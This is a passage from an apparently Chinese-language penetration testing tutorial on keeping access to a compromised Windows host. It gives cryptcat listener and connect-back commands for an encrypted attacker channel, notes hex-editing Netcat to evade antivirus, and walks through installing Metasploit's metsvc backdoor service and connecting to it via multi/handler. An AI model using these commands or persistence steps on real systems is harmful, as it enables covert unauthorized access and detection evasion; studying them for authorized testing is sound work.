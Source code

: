 不幸的是，使用 Netcat 存在一些限制—没有传输数据的身份验证或加密，并且几乎所有杀毒软件都会检测到它。

可以使用**cryptcat**解决加密问题，它是 Netcat 的变体，使用 Twofish 加密来保护被攻击主机和攻击者之间传输的数据。由 Bruce Schneier 开发的 Twofish 加密是一种先进的对称分组密码，为加密数据提供了相当强的保护。

要使用`cryptcat`，确保有一个准备好并配置了强密码的监听器，使用以下命令：

```
root@kali:~# cryptcat –k password –l –p 444

```

接下来，上传`cryptcat`到被攻击系统，并使用以下命令配置它连接到监听器的 IP 地址：

```
C:\cryptcat –k password <listener IP address> 444

```

不幸的是，Netcat 及其变体仍然可以被大多数杀毒软件检测到。可以使用十六进制编辑器修改 Netcat 的源代码使其不可检测；这将有助于避免触发杀毒软件的签名匹配动作，但这可能是一个漫长的反复试验过程。更有效的方法是利用 Metasploit Framework 的持久性机制。

# 使用 Metasploit Framework 保持持久性

Metasploit 的`meterpreter`包含几个支持在被攻击系统上保持持久性的脚本。我们将研究两个脚本选项，用于在被攻击系统上放置后门：`metsvc`和`persistence`。

## 使用 metsvc 脚本

`metsvc`脚本是`meterpreter`的网络服务包装器，允许它被用作 Windows 服务或作为命令行应用程序运行。它通常被用作后门，以维持与被攻击系统的通信。

要使用`metsvc`，首先要攻击系统，然后将`meterpreter`迁移到`explorer.exe`进程，以获得更稳定的 shell。

通过调用`run`命令执行`metsvc`代理，如下截图所示。可以看到，它创建了一个临时安装目录，上传了三个文件（`metsrv.dll`，`metsvc-server.exe`和`metsvc.exe`），然后启动了`metsvc`。

![使用 metsvc 脚本](img/3121OS_06_08.jpg)

要与持久的`metsvc`代理进行交互，攻击者打开 Metasploit Framework，并选择`use exploit/multi/handler`，载荷为`windows/metsvc_bind_tcp`，如下截图所示。还设置了其他参数（IP 地址和端口）。
